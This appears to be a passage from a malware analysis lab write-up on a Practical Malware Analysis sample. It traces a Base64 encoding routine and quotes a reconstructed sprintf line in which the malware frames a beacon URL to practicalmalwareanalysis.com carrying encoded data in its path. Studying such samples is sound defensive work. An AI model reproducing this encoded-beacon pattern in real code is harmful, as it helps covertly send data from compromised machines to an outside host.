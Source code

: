 <img src="/assets/img/Lab14/1main.png">

Lokking into the function sub_4010BB, it calls another function sub_401000 which contains the reference to the string detected by KANAL.

<img src="/assets/img/Lab14/1base64ref.png">

So, ig sub_4010BB is the Base64 encoding function. 

Back in main function, it calls another function sub_4011A3 in while loop. In which, it frames a URL in the format of :

```cpp
sprintf(buffer, "http[:]//www[.]practicalmalwareanalysis[.]com/%s/%c.png", base64Encoded, base64Encoded[sizeof(base64Encoded)-1]);
```
